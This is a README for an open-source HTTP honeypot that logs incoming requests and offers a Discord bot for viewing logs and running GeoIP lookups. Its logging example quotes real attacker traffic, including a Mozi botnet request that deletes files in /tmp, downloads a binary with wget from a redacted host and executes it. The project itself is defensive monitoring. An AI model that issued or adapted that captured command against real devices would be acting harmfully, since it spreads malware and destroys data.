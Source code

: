 # Home Alone 
A simple and open source honeypot system for detecting and tracking live threats on the internet. 

	- Logging the requests being made, the addresses and the time.
	- Discord bot to interact with the honeypot and see whats happening in real time.
More features to come.

## Logging 
Requests to the server are logged by date/time (files created each time you start honeypot).
Here's an example of some of the malicious traffic I've seen: 

```
====================================================================
Connection at 4/19/2021 - 0:41:23 :
{"5.178.86.76" : "b'POST http://check.best-proxies.ru/azenv.php?s=VJVJVDNRIJOOVEVCPRNRPJUONNURYR HTTP/1.1\r\nHost: check.best-proxies.ru\r\nCookie: testCookie=true\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0\r\nReferer: https://best-proxies.ru/\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\nConnection: close\r\n\r\ntestPost=true\r\n\r\n'"
================================================================================
Connection at 4/19/2021 - 16:10:54 :
{"<redacted>" : "b'GET /shell?cd+/tmp;rm+-rf+*;wget+http://<redacte>:35094/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1\r\nUser-Agent: Hello, world\r\nHost: <removed>\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\nConnection: keep-alive\r\n\r\n'"
================================================================================
```

## Discord Bot 
Using the discord bot you can retrieve and view these logs in real time as well as do GeoIP lookups:
```
"{\n  \"ip\": \"211.40.129.246\",\n  \"city\": \"Seonghwan\",\n  \"region\": \"Chungcheongnam-do\",\n  \"country\": \"KR\",\n  \"loc\": \"36.9156,127.1314\",\n  \"org\": \"AS3786 LG DACOM Corporation\",\n  \"postal\": \"31014\",\n  \"timezone\": \"Asia/Seoul\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"

"{\n  \"ip\": \"46.43.113.22\",\n  \"hostname\": \"adsl-46.43.113.22.mada.ps\",\n  \"city\": \"Ramallah\",\n  \"region\": \"West Bank\",\n  \"country\": \"PS\",\n  \"loc\": \"31.8996,35.2042\",\n  \"org\": \"AS51407 Mada ALArab LTD\",\n  \"timezone\": \"Asia/Hebron\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"
```

**working on a feature for automated reporting to AbuseIPDB.com**

## Setup 
Because this needs  to be run on the public internet, you can try changing to port 8080, adding a lower privilege user an running from that account. By default this is setup to run to grab headers and requests of HTTP traffic on port 80 by default. 

Create a `.env` file in the `/HomeAlone/code/` Directory. This is where you should put:
```
HONEY=IP_ADDRESS_OF_HONEY_POT
HOSTN=HOST_NAME_OF_HONEY_POT_USER
TOKEN=DISCORD_BOT_API_TOKEN
ABUSE=FREE_ABUSE_IPDB_API_TOKEN 
``` 
Last one is optional (and not fully functional yet). 

### Creating a discord bot 
Once you have the code running on your honeypot, you can go [here](https://discord.com/developers/applications) and add the DiscordBot add-on. 

The bot needs permissions for reading/writing into channels, adding reactions/emojis/embeds. 


### Contributing 
I would be happy to have more experienced people help me improve this project. If you want to 
make contributions feel free to make a pull request, and we can chat about how to make this more effective. 
